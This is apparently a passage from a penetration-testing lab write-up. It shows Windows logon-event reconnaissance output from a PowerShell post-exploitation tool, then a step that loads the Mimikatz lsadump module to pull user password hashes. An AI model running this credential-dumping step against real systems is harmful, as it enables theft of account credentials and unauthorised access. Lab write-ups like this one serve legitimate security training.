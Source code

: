 ```
Times                 : {1/12/2022 11:29:12 AM}
LogSource             : Security
SourceAccountName     : -
WorkstationName       : attackdefense
Count                 : 1
SourceDomainName      : -
NewLogonAccountDomain : ATTACKDEFENSE
LogType               : 4624

LogonType             : 10
NewLogonAccountName   : Administrator
SourcePort            : 0
SourceNetworkAddress  : 172.104.52.153
Times                 : {1/12/2022 11:29:13 AM}
LogSource             : Security
SourceAccountName     : ATTACKDEFENSE$
WorkstationName       : ATTACKDEFENSE
Count                 : 1
SourceDomainName      : WORKGROUP
NewLogonAccountDomain : ATTACKDEFENSE
LogType               : 4624


Event ID 4648 (Explicit Credential Logon):

Times             : {1/12/2022 11:29:13 AM}
TargetAccountName : Administrator
LogSource         : Security
SourceAccountName : ATTACKDEFENSE$
TargetServer      : localhost
Count             : 1
SourceDomainName  : WORKGROUP
TargetDomainName  : ATTACKDEFENSE
LogType           : 4648


AppLocker Process Starts:


PowerShell Script Executions:


RDP Client Data:


Get-ComputerDetails completed!
```

_Loading the `lsadump` module from Mimikatz to extract user hashes._

`usemodule powershell/credentials/mimikatz/lsadump`
